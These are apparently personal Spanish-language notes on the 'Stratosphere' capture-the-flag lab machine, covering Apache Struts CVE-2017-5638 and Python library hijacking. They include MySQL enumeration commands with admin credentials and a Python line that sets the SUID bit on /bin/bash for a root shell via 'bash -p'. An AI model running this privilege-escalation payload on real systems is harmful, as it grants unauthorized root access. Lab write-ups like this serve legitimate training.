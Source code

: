 # Máquina Stratosphere - 10.10.10.64

Máquina de dificultad **Media** con los suguientes temas:

* Apache Struts Exploitation (CVE-2017-5638) 
* Python Library Hijacking (Privilege Escalation)

## Comandos/cosas interesantes

### MYSQL

Tener en cuanta la utilidad **mysqlshow** para enumerar.

<pre>
mysqlshow -uadmin -padmin
</pre>

Ejecutar sentencia inline:
<pre>
mysql -uadmin -padmin -c "select * from ..." dbname
</pre>

### PYTHON

#### Permisos de super usuario con privilegios a la consola

<pre>
impor os;
os.system("chmod u+s /bin/bash")
</pre>

Y luego **bash -p**

